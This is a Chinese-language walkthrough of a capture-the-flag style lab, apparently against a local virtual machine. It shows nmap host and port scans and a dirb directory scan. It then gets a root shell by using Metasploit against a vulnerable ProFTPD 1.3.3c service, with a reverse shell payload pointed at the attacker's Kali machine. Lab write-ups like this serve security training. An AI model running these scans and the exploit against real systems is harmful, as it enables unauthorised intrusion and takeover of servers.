








# 信息收集

## Nmap

开启kali用扫同网段，找到该虚拟机ip，同时扫描开放端口：

```
nmap -sn 192.168.111.0/24
nmap --min-rate 10000 -p- -Pn  192.168.111.139
nmap -sT -sC -sV -O -p21,22,80 192.168.111.139 
```







## Web - 80



提示没有添加任何内容

### 目录 - FUZZ

```
dirb http://192.168.111.139
```



无可用信息

## PORT - 21

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
```

Google搜索发现存在漏洞，我们使用msf进行利用。

# 漏洞利用

```
msfconsole
search ProFTPd-1.3.3c
```



```
use 0
show options
set RHOSTS 192.168.111.139    //设置RHOSTS为靶机ip地址
set payload cmd/unix/reverse
set LHOST 192.168.111.128    //设置监听ip为kali的IP
```



```
exploit
```



攻击成功，成功拿到root权限